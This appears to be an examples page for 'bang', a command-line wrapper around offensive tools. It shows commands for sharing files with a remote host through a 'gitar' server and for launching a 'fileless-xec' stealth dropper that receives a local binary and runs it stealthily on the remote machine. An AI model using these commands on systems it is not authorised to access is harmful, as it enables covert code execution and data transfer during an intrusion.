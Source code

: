 # Examples

Some examples of bang usage

## `gitar`

### Share files

Start file sharing:
```
bang.gitar $AA $AP
```
This will start a `gitar` http server and copy to your clipboard a command line to run on remote. Run it, you can now upload and download file from remote easily (without further installations [see](https://github.com/ariary/gitar/blob/main/README.md#tldr---and-listen-music)). 

### Share files safely

Same as above + inside a container + using https for encryption

Start safe file sharing:
```
bang.gitar-safe $AA $AP
```

## `fileless-xec`

### Copy line to launch `fieleless-xec` stealth dropper

This will copy command line on your clipboard to launch fileless-xec on remote. (Previously, uploaded it to the remote machine)

```
bang.flxscpy
```

### Send a local file to remote `fileless-xec` to stealrthy run it

This will send a local binary to a remote listening `fileless-xec`. The binary will be then executed (stealthy) on remote

```
bang.flxssend [TARGET_IP]] [TARGET_PORT] [binary]
```